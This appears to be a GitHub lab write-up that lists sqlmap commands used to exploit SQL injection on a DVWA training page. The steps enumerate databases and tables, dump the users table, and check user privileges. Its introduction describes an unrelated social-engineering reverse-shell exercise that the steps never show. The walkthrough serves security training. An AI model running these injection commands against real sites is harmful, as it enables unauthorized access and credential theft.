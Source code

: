 # Hacking-a-SQL-database

<h1>Phase 6</h1>

Structureality is concerned about their susceptibility to soical engineering attacks and have given approval to test their personnel. I will perform a simulated social engineering attack against their employee using the Social Engineering Toolkit (SET). The goal is to trick a victim into running a malicious payload which will result in a reverse shell being established between the victim and the attacker systems.

**<p style="font-size: 15px;">Step 1: Use SQLMAP to Hack a Database.</p>**

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/0e947fc3-fdfb-411d-94d9-fc5a8c4bb8d3)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/518e491c-323a-46a3-aa3d-064096cf94cc)

http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Sumbit#

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/571ee018-082e-4ec6-950c-d46c22ddadf6)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/6ca88886-97c0-4483-a0de-d92e5196c681)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -b

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/94178e4f-61c9-45e5-a2f8-7e8035d4e460)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/86db4444-3ff1-4d4e-ac40-bddba9bbdd5f)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --dbs

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/ec943912-4e45-49aa-add6-5046d2755a56)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/58bcf6dd-7fb7-4681-b404-15f0f518277b)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -D dvwa --tables

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/a2c2528f-10a7-44e7-b62a-41ad2fe0210a)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/127762ab-16fc-44ca-bac9-d8196bfdbd8b)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -D dvwa -T users --columns

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/372092ec-e998-4701-b5c9-ec73ddd48791)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/e7b7d9da-1242-4681-92a9-051dc66cc9e5)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -D dvwa -T users --dump

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/b365aada-3774-42c7-8a49-52f422fd4d60)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/dfa4b8d8-16e3-438f-89ba-ee19279ff46f)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/a4a0c3c0-175e-47b1-b2d8-c2e0b68189cf)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --hostname

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/31510a64-d852-4663-bdc2-3578d678c9b8)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/de705765-6ad0-4259-8c3e-9e2ecfb1b96f)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --current-user

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/8f3d546b-21ba-4ace-881b-5ee2ca9b6071)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/30eee76f-dd30-4f3e-90e5-d5e31233c74b)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --current-db

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/c7164227-f46a-4082-ab2f-e6a60bc058ce)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/0c7df860-8454-44d6-b801-0b203c16777f)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --privileges --roles --is-dba

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/f1d7b932-0c0f-46a4-bee2-ba09b0d00bb8)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/d01914a3-bedc-4575-a7a8-0a9ae956ddd9)
































